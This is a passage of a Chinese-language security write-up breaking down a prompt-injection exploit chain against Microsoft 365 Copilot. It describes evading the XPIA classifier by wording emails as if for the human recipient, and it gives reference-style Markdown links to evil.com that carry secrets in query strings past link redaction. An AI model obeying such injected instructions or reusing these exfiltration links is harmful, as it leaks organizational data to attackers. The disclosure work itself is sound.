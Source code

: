 1. 检索：Copilot 将敏感数据泄漏给攻击者。【利用 2：链接编辑绕过】、【利用 3：CSP 绕过】  
  
## 利用链拆解  
### XPIA 绕过  
  
微软用于防止 AI 提示注入攻击的主要护栏之一是 XPIA（交叉提示注入攻击）分类器。通常情况下这些分类器可以阻止提示注入到达 M365 Copilot 的底层LLM。  
  
不幸的是，这很容易被绕过，只需将包含恶意指令的电子邮件措辞为这些指令是针对收件人的，就可以轻松绕过。  
  
由于电子邮件的内容从不涉及 AI/助手/Copilot 等，以确保 XPIA 分类器不会将该电子邮件检测为恶意邮件。  
  
另一个不幸的是，实际提示注入的质量数据集很少，由于快速注入可以隐藏多种主题，短语，音调，语言等，因此对 XPIA 分类器进行了适当的训练就需要大量的训练数据，而这些数据目前是缺失的。  
### 链接编辑绕过  
  
为了从 M365 Copilot 的上下文中泄露数据，还需要一个输出通道。  
  
因为 M365 Copilot 只能访问组织资源，并且仅对员工可访问，因此需要通过向用户提供一个链接，然后将用户带到攻击者的域名，并在攻击者的服务器上记录查询字符串参数来窃取数据。  
  
攻击者的指令指定查询字符串参数应该是LLM上下文中最敏感的信息，从而完成数据泄露。  
  
听起来很简单，是吧？  
  
这种方法的问题在于，Copilot 在用户有机会点击这些链接之前，就会从聊天历史中删除外部的Markdown 链接。  
  
Markdown链接类似下方格式的文本，它们在客户端渲染时可以点击。  
  

```
[Link display text](https://www.evil.com?param=<secret>)
```

  
  
解决方案会确保仅将安全链接目标（即内部网页）呈现为用户可点击的链接。  
  
关于Markdown，其内容总比你想象的要多，比如下面引用样式的Markdown链接就不会被Microsoft有效识别：  

```
[Link display text][ref]

[ref]: https://www.evil.com?param=<secret>

```

  
还有一些未被删除的变体，比如：  

```
[Link display text]

[Link display text]: https://www.evil.com?param=<secret>
[Link display text][]

[Link display text]: https://www.evil.com?param=<secret>

```

  
利用这些绕过，就可以构建出第一条利用链：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFefmSvbklXHhkprhoibk5AluyEVYECYRoib7JKMkXxBXkGbDBEujEEicMg/640?wx_fmt=png&from=appmsg "")  
### 图片编辑绕过  
  

[Image alt text]: https://www.evil.com?param=<secret>